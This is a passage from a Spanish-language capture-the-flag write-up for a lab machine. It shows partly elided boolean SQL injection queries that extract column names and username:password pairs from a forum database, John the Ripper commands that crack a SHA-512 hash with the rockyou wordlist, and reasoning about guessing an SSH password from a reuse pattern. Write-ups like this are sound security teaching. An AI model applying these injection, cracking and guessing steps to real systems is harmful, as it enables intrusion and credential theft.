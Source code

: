 Nos atrae inicialmente `forum_users`, pero después de perder el tiempo un poco con ella, nos destella el nombre `forum_owner`, si la revisamoooos...

### Extraemos las columnas de una tabla de la base de datos [⤵️](#sqli-boolean-forum-columns) {#sqli-boolean-forum-columns}

---

```sql
1 AND ... SELECT column_name FROM information_schema.columns WHERE table_schema='forumtesting' and table_name='forum_owner' ...
```

```bash
id
username
email
password
created
```

### Extraemos la información de los usuarios de la base de datos [⤵️](#sqli-boolean-forum-data) {#sqli-boolean-forum-data}

---

```sql
1 AND ... SELECT CONCAT(username,':',password) FROM forumtesting.forum_owner ...
```

Vemooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/literal/Literal_bash_python_sqliforum_ownerPasswordANDusername.png" style="width: 100%;"/>

EPALEEE! Encontramos credenciales (: Procedamos a intentar crackearlas.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt sqli_owner_password_forum.hash
```

Pero no obtenemos ningún resultado, al parecer necesitamos especificar que tipo de hash es, para esto podemos usar varias herramientas, usando `hashid` (linux) nos indica que el algoritmo usado es `SHA-512`, así que se lo hacemos saber a `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 sqli_owner_password_forum.hash
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/literal/Literal_bash_john_sqliforum_hashCracked.png" style="width: 100%;"/>

Liiiistones, tenemos la contraseña en texto plano (: Pero ya vimos que las anteriores no sirvieron y al parecer esta tampoco, ya que si probamos una conexión **SSH** no la obtenemos ):

Solo que hay algo que nos puede llamar la atención, esta contraseña fue obtenida en el **foro**, la contraseña tiene `forum` en su contenido... ¿Podríamos pensar que **carlos** es algo precavido (pero no mucho) y no reutiliza contraseñas, pero las relaciona al servicio donde sean usadas??? O sea, ¿quizás la contraseña del **SSH** pueda ser: `ssh10...`, así como la del foro fue `forum10...`? Si probamooooooooos:
